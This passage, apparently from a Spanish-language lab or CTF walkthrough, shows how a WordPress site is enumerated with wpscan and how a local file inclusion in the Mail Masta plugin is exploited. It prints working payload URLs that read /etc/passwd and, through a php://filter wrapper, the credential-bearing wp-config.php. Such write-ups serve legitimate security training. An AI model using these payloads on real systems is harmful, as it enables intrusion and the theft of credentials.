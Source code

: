 ```bash
wpscan --url (ip)/wordpress -e ap
```

![image](../zimages/Pasted_image_20241012213528.png)

El primer escaneo ya nos dió un usuario (que ya estaba en la web principal), y si buscamos por Google los plugins nos da cosas interesantes, vamos a ver cada uno de ellos:

## Mail Masta(Local File Inclusion)

Lo primero que vamos a hacer es buscar el plugin por internet, encontramos un artículo de "exploit-db", que si lo leemos bien, nos aparece una forma de leer archivos del sistema sin ser root: 

```web
http://ip-víctima/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
Como pusimos "passwd", nos aparecen los usuarios:

![image](../zimages/Pasted_image_20241012214540.png)

Vamos a utilizar un wrapper para ver el archivo de configuración de wordpress, "wp-config":

```bash
http://ip-víctima/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```

![image](../zimages/Pasted_image_20241012215331.png)
